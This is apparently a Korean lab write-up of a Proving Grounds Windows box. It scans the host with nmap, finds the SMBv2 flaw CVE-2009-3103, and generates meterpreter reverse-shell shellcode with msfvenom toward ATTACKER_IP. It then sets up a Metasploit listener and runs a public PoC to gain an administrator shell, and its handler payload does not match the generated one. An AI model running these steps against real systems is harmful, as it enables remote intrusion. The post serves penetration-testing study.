



---
layout: post
title:  "[PG][Windows] internal"
date:   2026-11-08 12:18:00 +09:00
featured: /assets/images/oscp-pg/windows/internal/image.png
categories: PG Windows
---## 정보 수집
Nmap을 통해 포트 스캔을 수행.
```
└─$ nmap 192.168.216.40 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-31 08:19 EDT
Nmap scan report for 192.168.216.40
Host is up (0.11s latency).
Not shown: 974 closed tcp ports (reset), 13 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

namp을 통해 SMB 취약점을 분석.
```
└─$ sudo nmap 192.168.216.40  -p 445  -sC -sV --script vuln
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-31 08:28 EDT
Nmap scan report for 192.168.216.40
Host is up (0.82s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.71 seconds
```

Exploit db에서 PoC 코드를 찾았지만, python2로 작성되어있음.


github에서 python3로 작성된 PoC코드를 발견함
[https://github.com/sec13b/ms09-050_CVE-2009-3103/blob/main/MS09_050_2.py?source=post_page-----49bca402f737---------------------------------------]

msfvenom을 이용하여 리버스 쉘 작성
```
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=443  EXITFUNC=thread  -f python -v shell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Final size of python file: 1929 bytes
shell =  b""
shell += b"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64"
shell += b"\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a"
shell += b"\x26\x31\xff\x8b\x72\x28\x31\xc0\xac\x3c\x61\x7c"
shell += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shell += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shell += b"\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x8b"
shell += b"\x48\x18\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
shell += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shell += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shell += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shell += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shell += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shell += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shell += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shell += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shell += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d"
shell += b"\xde\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50"
shell += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shell += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shell += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shell += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shell += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shell += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shell += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shell += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shell += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shell += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shell += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shell += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a"
shell += b"\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shell += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
shell += b"\x53\xff\xd5"
```

PoC코드를 보면 주석 부분에 쉘코드 생성하는 명령어 예시를 발견함.


msfconsole의 핸들러를 이용해 리스너 설정한 뒤 실행.
```
mfsconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp #payload important it should be same as our shellcode payload
set EXITFUNC thread
set LHOST ATTACKER_IP
set LPORT 443
run
```

서버 IP를 입력하여 PoC 실행. RPC client가 실행되며, 패스워드 오류로 팅김.
```
└─$ python MS09_050_2.py 192.168.216.40 
Password for [WORKGROUP\Administrator]:
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

핸들러 롹인 시 관리자 쉘 권한을 획득함.

